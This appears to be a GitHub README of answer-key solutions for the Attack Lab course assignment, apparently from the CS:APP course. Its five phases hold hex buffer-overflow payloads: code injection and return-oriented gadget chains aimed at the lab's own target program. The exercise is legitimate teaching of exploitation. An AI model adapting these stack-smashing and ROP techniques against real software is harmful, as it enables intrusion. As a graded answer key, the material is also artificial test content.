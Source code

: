 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.
See also steps of phase5 at https://stackoverflow.com/questions/54602292/segmentation-fault-in-attack-lab-phase5.

## Phase 1 Solution
```
// 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
75 17 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66 00
```

## Phase 4 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// first gadget - popq %rax
1d 18 40 00 00 00 00 00
// cookie
1f 25 3c 37 00 00 00 00
// second gadget - mov %rax to %rdi
0c 18 40 00 00 00 00 00
// address of touch2
a0 16 40 00 00 00 00 00
```

## Phase 5 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// gadgets
58 18 40 00 00 00 00 00
0c 18 40 00 00 00 00 00
27 18 40 00 00 00 00 00
48 00 00 00 00 00 00 00
e3 18 40 00 00 00 00 00
a1 18 40 00 00 00 00 00
bc 18 40 00 00 00 00 00
3e 18 40 00 00 00 00 00
0c 18 40 00 00 00 00 00
// address of touch3
75 17 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66 00
```
